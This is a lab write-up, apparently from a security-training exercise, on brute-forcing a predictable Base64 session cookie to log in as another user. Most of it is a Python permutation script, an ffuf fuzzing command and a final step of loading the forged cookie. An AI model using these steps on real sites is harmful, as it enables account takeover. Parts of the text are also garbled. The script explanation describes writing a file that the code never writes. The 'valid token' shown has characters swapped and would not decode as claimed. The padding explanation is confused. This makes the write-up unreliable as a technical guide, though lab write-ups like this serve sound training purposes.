 
---

# 📖 High-Level Summary:

In this lab, we brute force the **three random characters** in a user’s cookie by leveraging known patterns and **Base64 decoding**. By generating all possible permutations for the cookie's suffix and testing them, we identify the valid token, decode it, and gain access to another user’s account. The double `=` in Base64 encoding is crucial for padding to ensure the proper decoding of the string.

---

# 📚 Definition Bank:

|**Term**|**Definition**|**Key Notes**|
|---|---|---|
|**Base64 Encoding**|A method to encode binary data into a text format using 64 characters.|Commonly used for encoding tokens or cookies. Requires padding (`=`) to ensure proper decoding.|
|**Cookie**|A small piece of data stored in the browser used for session management or user authentication.|Here, it’s structured as `jeremy-<timestamp>-<random_chars>`.|
|**ffuf**|A command-line tool for web fuzzing to find valid inputs by testing various payloads.|Used here to brute force the correct cookie by testing generated Base64 tokens.|
|**`-fs` flag**|Filters results by matching the size of the response body.|Helps identify the valid response among many.|

---

# 🎯 Steps and Commands:

### Step 1: Base64 Decode Your Cookie

1. **Decode your own cookie to retrieve the timestamp:**
    
    ```bash
    echo -n 'Base64EncodedCookie' | base64 -d
    ```
    
    - **Example Output:**
        
        ```plaintext
        jeremy-15:29:08-abc
        ```
        
    - **Explanation:** The timestamp is part of the known cookie structure: `jeremy-<timestamp>-<random_chars>`.

---

### Step 2: Generate Possible Tokens

1. Use the following Python script to generate all permutations of the cookie:
    
```python
import base64
from itertools import product

chars = 'abcdefghijklmnopqrstuvwxyz'
prefix = 'jeremy-15:29:08-'

# Generate permutations using itertools.product
perms = (prefix + ''.join(p) for p in product(chars, repeat=3))

# Encode each permutation in base64 and print
for perm in perms:
    print(base64.b64encode(perm.encode()).decode())
```

---

### **Explanation of the Script**

This script generates Base64-encoded strings based on a known cookie structure (`jeremy-15:29:08-`) followed by all possible combinations of three lowercase letters (`a-z`). Here's how it works:

1. **Define the Character Pool (`chars`)**:
    
    - The string `chars` contains all lowercase letters (`'a'` to `'z'`).
    - These letters will be used to create the three-character suffix.
2. **Specify the Cookie Prefix (`prefix`)**:
    
    - The `prefix` (`'jeremy-15:29:08-'`) represents the fixed part of the cookie structure that precedes the random characters.
3. **Generate All Possible Suffixes (`product`)**:
    
    - Using `itertools.product(chars, repeat=3)`, the script generates every combination of three letters.
    - For example:
        - `('a', 'a', 'a')`
        - `('a', 'a', 'b')`
        - ...
        - `('z', 'z', 'z')`.
4. **Combine Prefix and Suffix**:
    
    - For each combination of three letters, the script appends the suffix to the prefix, forming complete strings such as:
        - `"jeremy-15:29:08-aaa"`
        - `"jeremy-15:29:08-aab"`
        - `"jeremy-15:29:08-aac"`
5. **Encode Strings in Base64**:
    
    - Each complete string is converted to bytes using `.encode()`.
    - The bytes are then encoded into Base64 format using `base64.b64encode()`.
    - The result is a Base64-encoded string, such as:
        - `"amVyZW15LTE1OjI5OjA4LWFhYQ=="`
6. **Save Encoded Strings to a File**:
    
    - The script opens a file (`tokens.txt`) in write mode.
    - Each Base64-encoded string is written to the file on a new line.
7. **Output**:
    
    - The file `tokens.txt` will contain a list of all possible Base64-encoded cookie strings, each on a separate line.

---

### **Example Flow**

Here’s what happens for a single iteration:

1. A suffix `('a', 'a', 'a')` is generated.
2. It’s combined with the prefix: `"jeremy-15:29:08-aaa"`.
3. The string is encoded into Base64: `"amVyZW15LTE1OjI5OjA4LWFhYQ=="`.
4. The encoded string is written to `tokens.txt`.

---

### **Script’s Purpose**

This script automates the generation of Base64-encoded cookies for all combinations of three random characters appended to a fixed prefix, storing the results in a file for later use or analysis.

---

### Step 3: Use ffuf to Test Tokens

1. Run the following **ffuf** command:
    
    ```bash
    ffuf -request req.txt -request-proto http -w tokens.txt -fs 834
    ```
    
    - **Flags Used:**
        - `-request req.txt`: Specifies the HTTP request template.
        - `-request-proto http`: Indicates the HTTP protocol for the request.
        - `-w tokens.txt`: Specifies the wordlist containing Base64-encoded tokens.
        - `-fs 834`: Filters responses by their size (834 bytes in this case).
2. **Identify the Valid Token:**
    
    - Look for the token with a `200` status code and the expected response size (e.g., `1741` bytes).

---

### Step 4: Decode the Valid Token

1. Use the valid token to decode and verify its contents:
    
    ```bash
    echo -n 'amVyZW15LTE10jI50jA4LWZxZA==' | base64 -d
    ```
    
    - **Output:**
        
        ```plaintext
        jeremy-15:29:08-fqd
        ```


---

### Step 5: Use the Valid Cookie

1. Add the cookie to your browser and refresh the page to log in as the target user.

---

# 🔍 Why is the Double Equal Sign (`==`) Used in Base64 Encoding?

- Base64 encoding ensures that the encoded string's length is a multiple of 4.
- The `=` or `==` serves as **padding**:
    - **`=`:** Adds 1 byte of padding.
    - **`==`:** Adds 2 bytes of padding.
- In this lab, the `==` is required for proper decoding of the cookie, as omitting it would lead to errors or truncated output.

---

# ✅ Key Takeaways:

1. **Pattern Recognition:** The cookie structure is predictable (`username-timestamp-random`), reducing the attack surface for brute force.
2. **Base64 Encoding:** Padding is essential for accurate decoding and validating the token format.
3. **Python Automation:** Generating permutations programmatically saves time and effort in brute-forcing tokens.
4. **ffuf Efficiency:** Filters like `-fs` narrow down valid responses, streamlining the brute-forcing process.
